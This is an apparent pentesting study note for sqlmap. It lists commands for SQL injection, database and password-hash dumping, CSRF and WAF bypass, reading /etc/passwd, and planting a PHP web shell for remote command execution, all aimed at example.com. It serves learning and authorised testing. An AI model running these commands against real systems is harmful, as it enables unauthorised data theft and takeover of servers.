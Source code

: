 # SQLMap 
Penetration testing tool to detect and exploit SQL injection vulnerabilities

---

## Types of Injection Vulnerabilities 
The default SQL injection techniques used are described by the acronym BEUSTQ
- B: Boolean-based blind
- E: Error-based
- U: Union query-based
- S: Stacked queries
- T: Time-based blind
- Q: Inline queries

---
## Basic Usage
```shell
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

Use the `copy as cURL` right click option from the networking tab in inspector and replace with sqlmap
```shell
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

POST data can be added with the `--data` flag and `--method POST`

Alternatively, you can capture a request using [[BurpSuite]] and copy into a file which can be read with the `-r` flag

Use the `--cookie` flag to set the session cookie 
```shell
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```
Or with a `-h` header option
```shell
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

`--mobile` and `--random-agent` can be used to change the agent header

Specify the injection mark with a `*` Ex: 
>--cookie="id=1*"

SQLMap also supports JSON formatted (e.g. `{"id":1}`) and XML formatted (e.g. `<element><id>1</id></element>`) HTTP requests.

`-t` flag will dump all the traffic data from the request and response to designated file

`--proxy` can be used to analyze traffic with [[BurpSuite]]

---
## Attack Tuning
Every payload sent to the target consists of:

-   vector (e.g., `UNION ALL SELECT 1,2,VERSION()`): central part of the payload, carrying the useful SQL code to be executed at the target.

-   boundaries (e.g. `'<vector>-- -`): prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement.

### Prefix/Suffix
Some special prefix and suffix values may be required in rare cases 
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

### Level/Risk
When bigger sets of boundaries and vectors are required:

-   The option `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).

-   The option `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).

### Additional Fine Tuning
`--code=200` will filter all 200 status codes returned by SQLi
`--titles` will detect a title changes in the `<title>` html tag
`--string=success` can be used to detect if a string is present in response
`--text-only` limits detection to only visible HTML content
`--technique=BEU` will limit SQLi payloads to these techniques
`--union-cols=17` or `--union-char='a'` can be used to specify vulnerable columns
`--union-from=users` can be used to specify appendix at the end of a UNION query
`-T tablename` can be used to specify which table data to dump

## DB Enumeration
`--banner` will use the VERSION() query
`--current-user` will use the CURRENT_USER() query
`--hostname` will diplay the hostname of the vulnerable target
`--current-db` will display the current database name
`--is-dba` will show if current user is a database admin
`--password-hashes` will dump only password hashes found in db

```shell
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

`--tables` will enumerate tables specified with `-D dbname`
`--dump` will display table data specified by `-T tablename` and columns by `-C a,b` 
and rows by `--start=2 --stop=3` and further specified by `--where="name LIKE 'f%'"`

`--dump-all` will dumap all the content from all the databases
`--exclude-sysdbs` will exclude content from system databases

`--schema` will retrieve the structure of all the tables
`--search -T user` will try to find tables containing the string 'user' 
`--search -C pass` will try to find columns containing the string 'pass'
`--passwords` self explanatory

**`--all --batch` will do a complete enumeration**

## Bypassing Web Application Protections
### Anti-CSRF Token Bypass
```shell
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

### Unique Value Bypass
```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp
```

### Calculated Parameter Bypass
```shell
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch
```

### Proxies
`--proxy="socks4://177.39.187.70:33283"`
`--proxy-file`
By using switch `--tor`, there should be a `SOCKS4` proxy in port 9050 or 9150
Use `--check-tor` to test

User agent bypass `--random-agent`

### WAF/IPS Bypass
Tamper scripts are python scripts writeen for modifying reauests before being sent
They can be chained this way `--tamper=between,randomcase`
To get a whole list of tamper scripts run `--list-tampers`
`--chunked` can be used when SQL keywords are blacklisted

## OS Exploitation
SQLMap has the ability to read/write files on the target machine and allow for RCE

### File Read/Write
In MySql, to read local files, the DB user must have the privilege to `LOAD DATA` and `INSERT`, to be able to load the content of a file to a table and then reading that table.
-   `LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`

`--is-dba` can be used to figure out if we have read/write privileges

To read files:
```shell
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

To write files:
```shell
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

The PHP shell file: 
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Sending commands to the cmd shell:
```shell
curl http://www.example.com/shell.php?cmd=ls+-la
```

## RCE
SQLMap can directly create an SQL shell using xp_cmdshell
```shell
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

If this returns NO OUTPUT, sometimes switching injection techniques may be required with `--technique=E`

